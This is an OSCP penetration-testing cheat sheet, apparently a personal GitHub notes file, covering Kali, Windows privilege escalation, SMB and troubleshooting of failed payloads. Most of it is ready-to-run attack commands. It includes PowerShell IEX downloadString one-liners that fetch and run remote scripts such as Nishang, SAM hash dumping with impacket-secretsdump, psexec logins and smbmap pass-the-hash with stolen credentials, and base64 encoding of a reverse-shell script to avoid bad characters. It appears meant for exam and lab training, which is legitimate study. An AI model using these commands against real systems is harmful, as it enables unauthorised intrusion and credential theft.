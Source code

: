 # oscp-cheatsheet

## Kali General

- Listen for pings to test if you remote command worked
  - `tcpdump -i interface icmp`
- Download all files from an ftp service
  - `wget -m --no-passive ftp://anonymous:anonymous@ipaddress`
- Read zip file info
  - `7z l -slt File.zip`
- Useful tools
  - xclip

## Windows

- Resources
  - [Path Traversal](https://www.gracefulsecurity.com/path-traversal-cheat-sheet-windows/)

- Privesc
  - Test if powershell is working without breaking shell
    - `powershell whoami`
  - Pivot DoS to powershell
    - `powershell "IEX(New-Object Net.WebClient).downloadString("http://0.0.0.0/nishang.ps1")"`
  - Download string that loads a ps script into memory (if you want it to auto run make sure there is a call to the function to do so at the bottom of the script, or else it'll just load the functions into memory)
    - `IEX(New-Object Net.WebClient).downloadString("http://0.0.0.0/script.ps1")`
  - Run cmd as other user
    - `$SecPass = ConvertTo-SecureString "password" -AsPlainText -Force; $cred = New-Object system.management.Automation.PSCredential('username', $SecPass); Start-Process -FilePath "powershell" -argumentlist "CMD" -Credential $cred`
  - Decrypy SAM password hashes
    - `impacket-secretsdump -sam SAMFILE -system SYSTEMFILE local`
  - Determine admin accounts
    - DOS: `net localgroup administrators`
  - SAM and SYSTEM file location
    - `Windows/System32/config`
  - Log into remote windows host with stolen creds (SMB required)
    - `psexec.py user@ip`
  - Check panther directory, install logs get put in here and contain creds

- SMB
  - Connect with stolen hash
    - `smbmap -u USER -p HASH -H hostnameIP`

## Linux

- Resources
  - [Path Traversal](https://www.gracefulsecurity.com/path-traversal-cheat-sheet-linux/)

## Troubleshooting

- Did an RCE test work but your payload fail?
  - Try changing single quotes to double quotes or vice versa
  - Try escaping special characters
  - Try changing your outgoing port to a more commonly used one (80, 443, 21, 22, etc)
  - Try removing bad characters
    - ex: `cat reverse.ps1 | iconv -t UTF-16LE | base64 -w0 | xclip -selection clipboard`
      - `powsershell-enc base64scriptpaste`
  - If you used msfvenom make sure your archicitecture is correct
  - If you used msfvenom make sure your payload size isn't too large
  - If you used msfvenom try pivoting options
  